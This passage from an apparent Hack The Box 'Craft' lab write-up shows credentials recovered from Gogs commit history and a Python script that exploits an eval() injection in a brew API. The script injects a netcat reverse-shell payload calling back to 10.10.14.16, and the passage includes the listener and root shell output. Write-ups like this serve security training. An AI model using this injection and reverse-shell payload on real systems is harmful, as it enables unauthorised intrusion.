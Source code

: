 {{< image src="/images/htb/craft/6-gogs.png" position="center" style="border-radius: 8px;" >}}

Taking a look into the commits made by Denish, we found in the commit `a2d28ed155` that he removed hardcoded credentials, exactly the kind of things we needed:

{{< image src="/images/htb/craft/7-gogs.png" position="center" style="border-radius: 8px;" >}}

## RCE

Now with credentials, knowing we could take advantage of the `eval()` and remembering the curl Denish was using in his issue + the API, we can make an injection via a POST to `/api/brew/`.
I wrote a small script to authenticate and post that does the injection (tbh, I missed I could just use `test.py` realized about it late). grabbing the token and using it to authenticate.

```console
root@kali:~/Documents/HTB/boxes/medium/linux/craft# cat craft_inject.py 
#!/usr/bin/python3
# -*- coding: utf-8 -*-
import requests
import re
import json

url = "https://api.craft.htb/api/auth/login"
login=('dinesh', '4aUh0A8PbVJxgd')
r = requests.get(url, auth=login, allow_redirects=False, verify=False)
token = json.loads(r.text)['token']
print(token)
url = "https://api.craft.htb/api/brew/"
headers = {'X-Craft-API-Token':token, 'Content-Type': 'application/json'}
inject = """__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 4444 >/tmp/f")"""
payload = {"name":"foo","brewer":"foo", "style":"foo", "abv":inject}
payload = json.dumps(payload)
attack = requests.post(url, verify=False, headers=headers, allow_redirects=False, data=payload)
```
In one tab run nc listening on port 4444 with `nc -lvp 4444`, and run in other tab we run the script to get the reverse:
```console
root@kali:~/Documents/HTB/boxes/medium/linux/craft# ./craft_inject.py 
```

```console
root@kali:~/Documents/HTB/boxes/medium/linux/craft# nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from api.craft.htb [10.10.10.110] 41887
/bin/sh: can't access tty; job control turned off
/opt/app # whoami
root
/opt/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

There is something weird, we are already root? we check if there is the `root.txt` in it's home and not, is not:
